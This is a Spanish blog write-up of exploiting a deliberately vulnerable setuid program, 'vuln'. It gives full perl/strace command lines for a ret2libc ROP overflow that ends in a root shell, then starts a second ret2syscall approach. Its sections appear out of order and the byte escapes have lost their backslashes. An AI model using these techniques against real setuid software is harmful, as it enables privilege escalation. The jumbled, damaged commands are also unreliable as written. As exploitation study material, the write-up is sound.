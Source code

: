 ```$ strace /home/arget/vuln "`cat sc.o``perl -e 'print "A"x(140-33) . "xd0xbbxfdxf7" . "xb5x6cxfdxf7" . "xb6x6cxfdxf7" . "x03x1exe0xf7" . "xaaxaaxffxff" . "x30x6cxfdxf7"'`"  
Mediante ltrace vemos el comienzo de buffer, al que le sumamos 140+18\*4 y obtenemos la dirección donde se encontrará el 0xdeadbeef que hemos colocado, el argumento de setuid(), de forma que ajustamos las direcciones en las que escribe strcpy().  
Finalmente explotamos  
``$ /home/arget/vuln "`perl -e 'print "A"x140 . "x70x83x04x08" . "x92x85x04x08" . "x94xd2xffxff" . "x3cx84x04x08" . "x70x83x04x08" . "x92x85x04x08" . "x95xd2xffxff" . "x3cx84x04x08" . "x70x83x04x08" . "x92x85x04x08" . "x96xd2xffxff" . "x3cx84x04x08" . "x70x83x04x08" . "x92x85x04x08" . "x97xd2xffxff" . "x3cx84x04x08" . "x60x4dxe8xf7" . "x93x85x04x08" . "xefxbexadxde" . "x80x1fxe0xf7" . "x10x4fxdfxf7" . "xa8x20xf4xf7"'`"  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp???????<?p???????<?p???????<?p???????<?`M????ﾭ? ?? O??? ?  
sh-4.4# whoami  
root  
sh-4.4#``

Gran parte de mi objetivo de hoy es demostrar cómo existen muchas posibles soluciones para cualquier problema, y aunque no siempre _todos los caminos lleven a Roma_, varios sí lo harán, y habrá que elegir con cuál se siente uno más cómodo. Adicionalmente estas técnicas no son lo único que se puede emplear, y, en ocasiones no hay nada que hacer con ellas, para evitar entrar en pánico es necesario que el exploiter tenga recursos y la mente completamente abierta, acompañada de una creatividad espléndida y bien entrenada. De ahí viene el nombre de este post, lo que sepas sobre exploiting no te servirá de nada sin la debida creatividad, además es importante complementar la experiencia adquirida mediante experiencias ajenas, al fin y al cabo el alma del hacking es compartir conocimiento, por eso es importante dedicarse a leer con cuidado soluciones ajenas a retos del día a día. Recuerdo un post de blackngel (su blog _[blackbycode.com](https://web.archive.org/web/20170920042316/http://blackbycode.com/)_ ha sido borrado, así que no puedo traer la referencia, bueno, quizá se encuentre en archive.org 🙂 ), que para situar en el registro eax un valor determinado, empleó una llamada a read() (que devuelve el número de bytes leídos), para así, introduciendo la cantidad de bytes justa lograr que read() devolviera en eax el valor deseado.

Nos  leemos.

Ya hemos visto antes otra posible solución, pero quería solucionarlo sin emplear el strcpy() para situar en nuestra cadena de ropeo los bytes nulos.  
Pobre programita, lo hemos explotado ya por todas partes, deberíamos cambiarlo…  
Comencemos con mi primera fase durante este reto. Puse de límites que debía de ser ret2libc puro (no shellcode), y, como ya he dicho, sin emplear el strcpy().  
La primera idea que tuve fue emplear un 0x00000000 ya situado en el stack para que sea el argumento de setuid(), llegando hasta él mediante varios punteros a instrucción `ret`, es decir (comenzando en el EIP(s))

&ret | &ret | &ret | &ret | &ret | &setuid | ret de setuid | 0x00000000

Posteriormente, emplear un gadget `sub esp, 0x??` para continuar con la segunda parte del ROP en la parte del stack anterior al EIP(s).  
Tras no encontrar ningún `sub esp, 0x??` útil, y de desechar un par de teorías busco otro lugar donde puede encontrarse el payload: los argumentos del programa, o las variables de entorno. El objetivo sería en lugar de emplear un `sub esp, 0x??`, emplear un `add esp, 0x????`, algo así como un _esp lifting_. El problema es que se trata de un salto grande —creo que de casi unos 600 bytes—, y no hubo forma.  
Tras desechar otra gran teoría recurro al ret2syscall. ROPgadget me da hecho un ropchain para ejecutar un execve() —el cual ya veremos—. Pero necesitamos un setuid(0).

La syscall setuid(0) se haría con EAX = 213 y EBX = 0x00000000. El valor de eax en el momento en que tomamos las riendas del ejecutable depende de la cantidad de bytes que introducimos. Lo mejor será hacerlo cero nada más comenzar, ya veremos cómo llegar a 213.  
En fin, encontramos un `xor eax, eax;ret` en 0xf7df321f.  
Ahora a ver cómo llegamos a 213. ¿Scared?  
Veo que existe un `add ecx, ecx ; ret`, y un `or al, ch ; ret`. El ecx lo tenemos con valor 0xffffffff (-1 o 4294967295, dependiendo de cómo lo mires) eso tiene fácil solución, ya que un `inc ecx` lo overfloweará pasando a ser 0x00000000. Bien, si asignamos al comienzo un valor a ecx y lo vamos multiplicando por dos y sumándolo en uno cuando se requiere llegamos al 213 de dos patadas.  
```